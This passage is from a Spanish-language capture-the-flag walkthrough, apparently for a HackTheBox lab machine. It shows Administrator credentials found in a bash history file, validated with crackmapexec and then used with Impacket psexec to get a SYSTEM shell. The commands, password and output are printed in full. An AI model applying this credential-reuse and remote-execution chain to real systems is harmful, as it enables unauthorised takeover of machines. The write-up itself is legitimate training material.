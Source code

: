 Si checamos el archivo `.bash_history`, podemos ver los comandos a ha hecho el usuario **root** del servidor Ubuntu y nos encontramos con algo curioso, unas credenciales del usuario **Administrator**, por lo que ya sabemos, guardamos todas las credenciales que encontremos y vamos a validarlas.

```bash
❯ crackmapexec smb 10.10.10.97 -u 'Administrator' -p 'u6!4ZwgwOM#^OBf#Nwnh'
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
```

Las credenciales son válidas y tenemos ejecución de comandos (*Pwn3d!*),  por lo tanto, nos conectamos a la máquina con la herramienta `psexec.py`:

```bash
❯ /root/.local/pipx/venvs/crackmapexec/bin/psexec.py WORKGROUP/Administrator:u6\!4ZwgwOM#^OBf#Nwnh@10.10.10.97
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file bseZoTmQ.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service ZuAc on 10.10.10.97.....
[*] Starting service ZuAc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system

C:\WINDOWS\system32>
```

Ya somos el usuario `nt authority\system` y podemos visualizar la flag (root.txt).
